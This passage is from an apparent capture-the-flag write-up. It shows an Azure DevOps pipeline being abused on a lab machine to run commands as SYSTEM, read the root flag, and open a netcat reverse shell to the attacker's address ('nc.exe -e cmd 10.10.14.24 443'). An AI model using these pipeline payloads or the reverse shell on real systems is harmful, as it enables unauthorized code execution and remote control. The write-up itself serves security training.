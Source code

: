 ![image-20200823064131923](https://0xdfimages.gitlab.io/img/image-20200823064131923.png)

My input defined two steps, “Run a one-line script” and “Run a multi-line
script”, and they are both there. Clicking on Run a one-line script shows the
results:

[![image-20200823064458383](https://0xdfimages.gitlab.io/img/image-20200823064458383.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200823064458383.png)

On line 14 is the output of the script. Clicking Next task shows similar
output for the second stage, Run a multi-line script:

[![image-20200823064559895](https://0xdfimages.gitlab.io/img/image-20200823064559895.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200823064559895.png)

The two `echo` statements are executed.

### Read root.txt

The next thing I want to do is determine which user is running the scripts.
I’ll cheat a bit and also attempt to read `root.txt`:

    
    
    trigger:
    - master
    
    pool: 'Setup'
    
    steps:
    - script: |
        whoami
        type c:\users\administrator\desktop\root.txt
      displayName: 'Pwn all the things'
    

The results show that it runs as nt authority\system! And it returns the flag:

[![image-20200823065122408](https://0xdfimages.gitlab.io/img/image-20200823065122408.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200823065122408.png)

### Shell

Of course I want a shell, so I’ll create another pipeline:

    
    
    trigger:
    - master
    
    pool: 'Setup'
    
    steps:
    - script: c:\programdata\nc.exe -e cmd 10.10.14.24 443
      displayName: 'shellz'
    